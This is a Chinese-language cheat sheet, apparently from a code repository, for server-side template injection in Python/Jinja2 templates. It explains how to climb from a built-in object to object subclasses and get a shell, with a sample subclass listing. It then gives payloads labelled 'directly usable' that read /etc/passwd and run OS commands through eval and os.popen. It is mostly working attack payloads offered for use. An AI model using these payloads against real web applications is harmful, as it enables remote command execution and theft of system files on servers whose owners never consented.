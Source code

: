 <br>

```
1.随便找一个内置类对象用__class__拿到他所对应的类
2.用__bases__或者__mro__拿到基类（<class ‘object’>）
3.用__subclasses__()拿到子类列表
4.在子类列表中直接寻找可以利用的类getshell
5.接下来只要找到能够利用的类（方法、函数）就好

例如
''.__class__  可以寻找到字符串的类对象:
<type 'str'>

''.__class__.__mro__ 向上寻找基类
(<type 'str'>, <type 'basestring'>, <type 'object'>)

>>> ''.__class__.__mro__[2].__subclasses__() 寻找可用的引用
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]

利用: ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}         //遍历基类 找到eval函数
    {% if 'eval' in b.keys() %}    //找到了
      {{ b['eval']('__import__("os").popen("ls").read()') }}  //导入cmd 执行popen里的命令 read读出数据
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}


读取文件(直接可用)
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}
{%endif%}
{%endfor%}

执行命令(直接可用)
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__']['__import__']('os').__dict__['popen']('ls /').read() }}
{%endif%}
```